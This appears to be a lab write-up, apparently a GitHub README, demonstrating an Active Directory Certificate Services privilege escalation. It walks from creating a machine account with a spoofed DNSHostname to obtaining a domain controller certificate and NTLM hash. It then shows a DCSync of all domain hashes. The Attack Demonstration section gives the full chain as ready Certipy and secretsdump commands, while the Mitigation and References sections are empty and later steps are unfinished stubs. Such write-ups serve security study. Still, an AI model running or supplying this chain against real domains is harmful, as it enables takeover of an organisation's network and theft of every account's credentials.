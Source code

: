 # Outline
- The Attack In Brief
- Tools Needed
- Lab Setup And Conditions
- Attack Demonstration
- Technical Breakdown
- Mitigation
- References and Credits

---

# The Attack In Brief
1. By default, A regular AD user can add up to 10 computers to the domain.
2. After a user adds a computer to the domain, he gains the right to change its `DNSHostname` property.
3. By changing this property to be a domain controller's `DNSHostname`, he can request a certificate for it from ADCS.
4. Using the domain controller's certificate, we can obtain its NTLM hash.
5. And with that, we can request a complete copy of the domain hashes a.k.a perform a **DCSync** attack.

---

# Tools Needed
1. Certipy (https://github.com/ly4k/Certipy)
2. Impacket (https://github.com/SecureAuthCorp/impacket)

---

# Lab Setup And Conditions
## 1. Domain Controller with ADCS Role installed [DC.LAB.Local: 192.168.126.129]
![dc-with-adcs-installed](dc-with-adcs-installed.jpg)

## 2. Kali [192.168.145.128]
![kali-machine](kali-machine.jpg)

## 3. Normal User Account (No Special Privileges)
![normal-ad-user](normal-ad-user.jpg)

---

# Attack Demonstration
## 1. Joining A Machine Account to The Domain with A Spoofed `DNSHostname`
Command: `certipy account create <DOMAIN_FQDN>/<AD_USER>@<DC_IP> -user '<NEW_COMPUTER_NAME>' -dns <DC_FQDN>`

![creating-computer-with-spoofed-dns-hostname](creating-computer-with-spoofed-dns-hostname.jpg)

![proof-of-dns-hostname-spoofing](proof-of-dns-hostname-spoofing.jpg)

## 2. Requesting A Domain Controller's Certificate
we must first know the certificate authority's name.

This can be done by visiting the `/certsrv` web directory on the server with ADCS installed and authenticating:

![finding-out-the-ca-name](finding-out-the-ca-name.jpg)

Command: `certipy req -dc-ip <DC_IP> <DOMAIN_FQDN>/'<ADDED_COMPUTER_NAME_ENDING_WITH_DOLLAR_SIGN>'@<DC_IP> -ca <CA_NAME> -template Machine`
Password = same password generated from the computer creation in the previous step

![requesting-dc-cert](requesting-dc-cert.jpg)

## 3. Using the Domain Controller's Certificate To Get its NTLM Hash
Command: `certipy auth -pfx <GENERATED_PFX_CERTIFICATE>`

![got-nt-hash-for-dc](got-nt-hash-for-dc.jpg)

## 4. Performing `DCsync` As The Impersonated Domain Controller
Command: `secretsdump.py -just-dc <DOMAIN_FQDN>/'<DC_NAME_ENDING_WITH_DOLLAR_SIGN>'@<DC_IP> -hashes :<RETRIEVED_HASH>`

![dc-sync-with-dc-ntlm-hash](dc-sync-with-dc-ntlm-hash.jpg)

---

# Technical Breakdown: The conversation
User: Yo AD! I heard that I could join 10 computers to the domain. Is this for real?

AD: Thats right! knock yourself out!

User: Yo ADCS, I heard I can request a certificate from you. is that true?

ADCS: Sure is! what do you need this certificate for, user or computer?

User: I have my own certificate. Thanks. Can I get that for the computer I just joined to the domain?

ADCS: You bet! all domain computers can get their certificate!

User: Oh that's great! Alright, i'll need one for my computer here. But can I make his `DNShostname` like this? \*puts domain controller fully-qualified domain name\*

ADCS: \*inspects the certificate request closely and looks confused\* Well um... this is weird. But you totally have the permission to do that. \*Hands him a certificate with the domain controllers `DNSHostname` one it\*

User: Thank you ADCS!

User: AD! \*Points to the newly joined computer\*. There's another domain controller here that wants to get a copy of all the passwords. Would that be OK?

AD: Of course! There you are! \*Sends him a copy of all the domain hashes\*

User: Oh you're so generous AD <3

## About Certificate Templates: Who's allowed to enroll? what can they do with a certificate?
Here's the process:
1. First, a client (can be a User or Computer) generates a public/private key pair.
2. Client sends a Certificate Signing Request (CSR) to an Enteprise CA Server.
3. A user client will need to access the User Certificate Template. Same goes for a computer client. So both templates must exist.
4. By default, both the user and computer certificate templates allow client authentication.
4. Templates have permissions too. If the template allows the client to request a certificate, he should be good to go and the CA will sign his certificate with its own private key.
5. The client would then store this certificate in its Certificate Store and use it to perform actions allowed by the certificate (including authentication).
6. Because of the PKINIT kerberos extension, the issues certificates can be used for authentication.

## Puzzle Piece #1: The Default Privileges Of A Normal AD User
In Active Directory, any member of the `Authenticated Users` group is allowed to add up to 10 computers to the domain.

We can verify that by going to `MMC -> ADSI EDIT > DEFAULT NAMING CONTEXT > DOMAIN PROPERTIES`

![machine-account-quota](machine-account-quota.jpg)

## Puzzle Piece #2: The Permissions an AD User Has on The Computer He Joins to the domain
When a user adds a computer to the domain, he gains a few permissions on it:

![permissions-of-computer-owner](permissions-of-computer-owner.jpg)

## Puzzle Piece #3: the permissions for the computer certificate template
The computer certificate is accessible to any computer in the Domain Computers Group:

![computer-certificate-template-permissions](computer-certificate-template-permissions.jpg)

4. requesting certs
5. grabbing the NTLM hash

# mitigation

# references and credits
